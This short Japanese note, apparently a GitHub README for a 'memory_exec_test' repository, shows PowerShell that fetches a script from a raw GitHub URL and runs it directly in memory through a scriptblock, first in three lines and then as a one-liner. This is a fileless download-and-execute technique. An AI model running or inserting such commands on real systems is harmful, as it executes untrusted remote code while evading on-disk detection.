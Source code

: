 ```
$c = (curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/win_calc).content
$s = [scriptblock]::create($c)
$s.invoke()
```

もしくはそれらをまとめて一行で

```
([scriptblock]::create((curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/win_calc).content)).invoke()
```

## ref.
https://qiita.com/zaki-lknr/items/8950f6acea20961a8afc

https://yomon.hatenablog.com/entry/2014/11/27/222621
